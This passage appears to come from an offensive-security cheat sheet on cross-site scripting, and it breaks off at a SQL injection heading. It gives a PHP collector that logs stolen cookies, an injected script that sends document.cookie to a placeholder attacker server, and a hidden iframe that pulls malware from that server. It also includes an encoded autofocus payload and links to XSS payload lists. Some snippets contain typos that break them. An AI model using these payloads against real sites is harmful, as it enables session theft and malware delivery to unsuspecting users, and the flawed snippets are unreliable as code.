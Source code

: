 ### PHP collector

`> cookie.txt`
`chmod 777 cookie.txt`

Edit a php page like `colector.php` as follow:

```php
<?php
  $cookie=GET['cookie'];
  $useragent=$_SERVER['HTTP_USER_AGENT'];
  $file=fopen('cookie.txt', 'a');
  fwrite($file,"USER AGENT:$useragent || COOKIE=$cookie\n");
  fclose($file);
?>
```

Script to put in page:

```javascript
<scritp>new Image().src="http://OUR_SERVER_IP/colector.php?cookie="+document.cookie;</script>
```

#### Malware Donwloader via XSS

```javascript
<iframe src="http://OUR_SERVER_IP/OUR_MALWARE" height="0" width="0"></iframe>
```

#### How to play Mario with XSS

```javascript
<iframe
  src="https://jcw87.github.io/c2-smb1/"
  width="100%"
  height="600"
></iframe>
```

```javascript
<input onfocus="document.body.innerHTML=atob('PGlmcmFtZSBzcmM9Imh0dHBzOi8vamN3ODcuZ2l0aHViLmlvL2MyLXNtYjEvIiB3aWR0aD0iMTAwJSIgaGVpZ2h0PSI2MDAiPjwvaWZyYW1lPg==')" autofocus>
```

#### XSS payloads

- [Payload All The Things](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/XSS%20Injection)
- [Seclist XSS](https://github.com/danielmiessler/SecLists/tree/master/Fuzzing/XSS)

## SQLI

**SQL Injection**

### Sqlmap

#### GET
